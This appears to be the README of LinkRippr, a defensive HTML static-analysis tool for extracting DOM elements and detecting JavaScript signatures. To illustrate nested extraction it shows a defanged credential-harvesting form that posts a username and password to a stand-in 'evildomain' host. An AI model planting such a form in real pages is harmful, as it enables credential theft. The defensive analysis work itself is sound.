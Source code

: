 <img src="https://github.com/sjb-ch1mp/LinkRippr/blob/master/img/banner.png">

Author:

sjb-ch1mp

Description:
LinkRippr is a static analysis tool for HTML documents for infosec professionals. It has two main
features:

    1. Extracting elements and attributes of interest from HTML.
    2. Detecting signatures of interest in JavaScript blocks.

DOM Extractions:

Element and attribute extractions can be defined in the 'DOM Extractions' panel by typing the element
name in the TAG column and any attributes of interest in the ATTRIBUTES column. If you wish to extract
all attributes when LinkRippr finds a named element, you can use '*' in the ATTRIBUTES column.

LinkRippr can also extract 'nested' elements, for example, <input> elements inside a <form> element such as:

    <form method="POST" action="hxxp://evildomain[.]com/badscript.php">
        <input type="text" name="username">
        <input type="text" name="password">
    </form>

In such a case, you can use LinkRippr's simple syntax to define 'nested' element extractions in the DOM Extraction
panel. To extract the 'nested' <input> elements from the <form> element above, you would type:

    "method,action,[input:type,name]"

This would extract the "method" and "action" attributes for any <form> element found, AS WELL AS any <input>
elements within that <form> and the "type" and "name" attributes for the nested <input> elements.

Script Signatures:

Signatures are defined using regular expressions. LinkRippr splits script blocks into clean statements and then
searches each statement for matches against each signature defined in the Script Signatures panel. If found, the
matching text will be extracted from the script block and added to the summary output.